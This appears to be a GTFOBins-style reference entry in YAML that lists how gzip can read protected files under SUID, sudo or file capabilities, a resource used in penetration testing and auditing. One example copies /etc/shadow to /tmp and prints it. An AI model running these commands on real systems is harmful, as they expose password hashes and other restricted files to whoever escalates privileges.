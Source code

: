 ```yaml
---
description: There are also a number of other utilities that rely on `gzip` under the hood, e.g., `zless`, `zcat`, `gunzip`, etc. Besides having similar features, they also allow privileged reads if `gzip` itself is SUID.
functions:
  file-read:
    - code: |
        LFILE=file_to_read
        gzip -f $LFILE -t
    - code: |
        LFILE=file_to_read
        gzip -c $LFILE | gzip -d
  suid:
    - code: |
        LFILE=file_to_read
        ./gzip -f $LFILE -t
  sudo:
    - code: |
        LFILE=file_to_read
        sudo gzip -f $LFILE -t
  capabilities:
    - description: If cap_dac_read_search is set. Run ``getcap -r / 2>/dev/null`` to confirm ``/usr/bin/gzip cap_dac_read_search=ep``
      code: |
        gzip can read any file:
        gzip -c /etc/shadow > /tmp/shadow.gz
        gzip -d /tmp/shadow.gz
        cat /tmp/shadow
---
```

